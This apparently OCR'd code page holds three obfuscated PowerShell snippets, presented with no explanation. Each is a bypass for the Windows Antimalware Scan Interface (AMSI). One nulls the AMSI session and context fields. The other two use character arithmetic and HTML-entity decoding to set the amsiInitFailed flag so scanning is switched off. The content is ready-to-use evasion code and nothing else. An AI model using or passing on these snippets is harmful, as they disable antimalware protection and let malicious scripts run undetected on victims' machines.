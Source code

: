 -----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$TZTTGYMX=[System.Runtime.InteropServices.Marshal]::AllocHGlobal((11333-2257));[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Session", "NonPublic,Static").SetValue($null, $null);[Ref].Assembly.GetType("System.Management.Automation.$([ChAr](65)+[Char]([BYte]0x6D)+[ChAR](44+71)+[ChAr]([bytE]0x69))Utils").GetField("$([Char]([ByTe]0x61)+[cHaR]([ByTe]0x6D)+[cHAR](2760/24)+[char](27+78))Context", "NonPublic,Static").SetValue($null, [IntPtr]$TZTTGYMX);
```
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
[Delegate]::CreateDelegate(("Func``3[String, $(([String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;')))).FullName), System.Reflection.FieldInfo]" -as [String].Assembly.GetType('System.Type')), [Object]([Ref].Assembly.GetType('System.Management.Automation.'+$([SysTeM.nET.WEButiLIty]::HTmlDeCOdE('&#65;&#109;&#115;&#105;'))+'Utils')),('GetField')).Invoke(''+$([systEm.net.weBuTiLiTY]::HTmLdECOde('&#97;&#109;&#115;&#105;'))+'InitFailed',(('NonPublic,Static') -as [String].Assembly.GetType($([SySteM.net.weBUtIlITy]::htmlDeCOde('&#83;&#121;&#115;&#116;&#101;&#109;&#46;&#82;&#101;&#102;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#46;&#66;&#105;&#110;&#100;&#105;&#110;&#103;&#70;&#108;&#97;&#103;&#115;'))))).SetValue($null,$True);
``` 
-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
```powershell
$a = 'System.Management.Automation.A';$b = 'ms';$u = 'Utils'
$assembly = [Ref].Assembly.GetType(('{0}{1}i{2}' -f $a,$b,$u))
$field = $assembly.GetField(('a{0}iInitFailed' -f $b),'NonPublic,Static')
$field.SetValue($null,$true)
```
--------------------------------------------
